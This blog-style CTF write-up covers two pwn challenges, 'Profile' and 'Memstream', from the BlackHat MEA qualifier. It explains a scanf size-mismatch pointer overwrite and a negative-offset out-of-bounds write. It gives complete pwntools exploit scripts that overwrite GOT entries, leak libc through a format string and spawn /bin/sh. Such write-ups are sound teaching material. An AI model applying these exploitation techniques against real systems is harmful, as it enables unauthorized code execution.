

## Overview

BlackHatMEA qualifer wasn't too good in my opinion.

The admin weren't active the whole ctf, challegnes had `first blood extra points`, and there were just 12 challenges in total.
My team, `thehackerscrew` have been devided to 2 different teams. the first team finished 6'th, while the other team finished 12'th. both teams finished all challenges.

Here are my solutions for all the pwn challenges in the event. I found them both pretty interseting.

<!--more-->

## Profile

"Profile" was the first pwn challenge in the event.

One thing I liked is that we are given source code in the pwn chals:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

struct person_t {
  int id;
  int age;
  char *name;
};

void get_value(const char *msg, void *pval) {
  printf("%s", msg);
  if (scanf("%ld%*c", (long*)pval) != 1)
    exit(1);
}

void get_string(const char *msg, char **pbuf) {
  size_t n;
  printf("%s", msg);
  getline(pbuf, &n, stdin);
  (*pbuf)[strcspn(*pbuf, "\n")] = '\0';
}

int main() {
  struct person_t employee = { 0 };

  employee.id = rand() % 10000;
  get_value("Age: ", &employee.age);
  if (employee.age < 0) {
    puts("[-] Invalid age");
    exit(1);
  }
  get_string("Name: ", &employee.name);
  printf("----------------\n"
         "ID: %04d\n"
         "Name: %s\n"
         "Age: %d\n"
         "----------------\n",
         employee.id, employee.name, employee.age);

  free(employee.name);
  exit(0);
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  srand(time(NULL));
}

```

This code does a really basic thing:

It will ask the user for age and name and create a new `person_t` struct with those values.

At first, I told myself that there was no vulnerability here, but after re-reading the code, I saw it:

The `person_t` struct is built like this:
```c
struct person_t {
  int id;
  int age;
  char *name;
};
```
So age is an int, which means it contains just 4 bytes.

Then, we call `get_value("Age: ", &employee.age);`, `scanf("%ld%*c", (long*)pval) != 1`.

That's a bug! The `%ld` format string means that a long will be inputted, which is 8 bytes!

With this bug, we can overwrite the `name` variable pointer.

This will give us an arbitrary write primitive, because we will use the `get_string` function to write to `&employee.name` which we control!

# Exploitation

After running `checksec` on the binary, we can see that the binary is `Partial Relro`, and `non PIE`. this means, that the got is marked as `r/w``, so we can use our primtive to write there.

Firstly, I overwrote `got.free`, to `main`, which will give us an infinite arbitrary writes, because each time the functions ends, it will start over again.

I didn't overwrote `got.exit` yet, because if `free` will be called with name, it will crash because of a check in free which checks for a size field in the chunk.

With our second arbitrary write, I overwrote `got.exit` with main, and then with our third one, I overwrote `got.free` with `got.printf`, and we get a fsb since free is called with out input!

With the fsb, we can easilly get leaks, of libc.

And lastly we'll overwrite `free` again with `system`, and win.

```py
from pwn import *

e = ELF("./profile")
p = process("./profile")
#p = remote("54.78.163.105" , 31540)
libc = ELF("./libc.so.6")

address = e.got.free
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym['main'])[:-1]+b'\x0a')

address = e.got.exit
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym['main'])[:-1]+b'\x0a')

address = e.got.free
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym["printf"])[:-1]+b'\x0a')


p.sendlineafter("Age: ", "1")
p.sendafter(b': ', "%p|%p|%p"+'\x0a')

p.recvuntil("1\n----------------\n")

leaks = p.recvuntil(b"Age").replace(b"Age", b"").split(b"|")
leak = int(leaks[-1], 16) - 0x114a37

libc.address = leak

print(hex(libc.sym.system))

#p.interactive()
address = e.got.free
p.sendlineafter(": ", str((address << 32) + 1))
p.sendlineafter(b': ', p64(libc.sym.system)[:-2])

p.sendline("1")
p.sendline("/bin/sh")

p.interactive()
```

## Memstream 

Memstream was the second pwn challenge in the event. it was medium difficulty.
Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#define MEM_MAX 0x1000

char g_buf[MEM_MAX];
off_t g_cur;

static void win() {
  system("/bin/sh");
}

size_t getval(const char *msg) {
  size_t val;
  printf("%s", msg);
  if (scanf("%ld%*c", &val) != 1)
    exit(1);
  return val;
}

void do_seek() {
  off_t cur = getval("Position: ");
  if (cur >= MEM_MAX) {
    puts("[-] Invalid offset");
    return;
  }
  g_cur = cur;
  puts("[+] Done");
}

void do_write() {
  int size = getval("Size: ");
  if (g_cur + size > MEM_MAX) {
    puts("[-] Invalid size");
    return;
  }
  printf("Data: ");
  if (fread(g_buf + g_cur, sizeof(char), size, stdin) != size)
    exit(1);
  puts("[+] Done");
}

int main() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  puts("1. Seek\n2. Read\n3. Write");
  while (1) {
    switch (getval("> ")) {
      case 1: do_seek(); break;
      case 2: puts("You know what you wrote."); break;
      case 3: do_write(); break;
      default: return 0;
    }
  }
}

```

After running `checksec` on the binary, it shows that the binary is packed with UPX:

```
itay@itay-Vortex-G25-8RD:~/Desktop/mystuff/mystuff/blackhat/pwn/second/player$ checksec --file=memstream
[!] Did not find any GOT entries
[*] '/home/itay/Desktop/mystuff/mystuff/blackhat/pwn/second/player/memstream'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Packer:   Packed with UPX
```

We can see that the binary is with `No Relro`, and without stack canary.

Now, let's look for vulnerabilities.

The binary consists of a simple main menu.

We can `seek` , which lets us change an index `g_cur`, in a global array.

We can `write`, which will write to `g_buf[g_cur]`.

The vulnerability is simple. When seeking, it doesn't check if our value is minus. This basically gives us an OOB write primitive.

There is not a `read` option, which hints that our solution should be without any leaks.

# Exploitation

With my OOB write, I was thinking what can I overwrite.
I saw in GDB, that when running our `memstream` binary, it is not loaded in `0x55***000` as usual, but in `0x7ff****000`, which means it has been `mmaped` (UPX binaries are weird)



This means that it is a constant offset from our dynamic libaries (i.e ld). With that in mind, we can overwrite anything we want from there.

One thing I knew, is that `ld` stores the binary base address in its writable segment. Then, when exiting the program, it will jump to the memory inside that address + 0x3d88:


If rax is `*(0x7ffff7fef2e0)` = `0x7ffff7ff7000`, it will do `call [rax + 0x3d88]`, which under normal circumstances is `__do_global_dtors_aux`.

So , we can control rax, to be whatever we want, and then it will jump to whats inside that `address + 0x3d88`.

After a quick search, I found out that the `win` function isn't written in any location inside the memory of that binary, so we should write somewhere ourselves. 

As seen in the previous screenshot, there is a second binary base address located in ld.

So, I partially overwrote it, to point to our win function. then , with our second write, I overwrote the second binary base to point to `first_binary_base - 0x3d88`, which will jump to main!

One thing to notice is that when we partially overwrite the base to point to the win function, we'll need to bruteforce one nibble. the offset of the `win` function is `0x1229`, and we can know just the 3 first nibbles of the base.

In my script I overwrote it to be 0x8229:

```py
	offset_base2 = 0x5a28
	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))
```

Then, the same issue occurs when we partially overwrite the second base address, I just guessed `0x5638`:

```py
	offset_base_win = 0x5d80
  seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b") #trigger exit
```

In total, we bruteforced 2 nibbles, and each one has a 1/16 success rate. so we will have `1/16*1/16=1/256` success rate.

Here is my final script, which will be need to run multiple times to succeed:

```py
from pwn import *


def seek(offset):
	p.recvuntil("> ")
	p.sendline("1")
	p.sendline(str(offset))

def write(size, payload):
	print(p.recvuntil("> "))
	p.sendline("3")
	print(p.recvuntil(": "))
	p.sendline(str(size))
	print(p.recvuntil(": "))
	p.send(payload)


while True:
	p = process("./memstream")

	offset_base_win = 0x5d80
	offset_base2 = 0x5a28


	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))

	seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b")

	try:
		p.sendline("ls")
		print(p.recv())
		#p.interactive()
	except:

		p.close()
		continue
	finally:
		p.interactive()
```


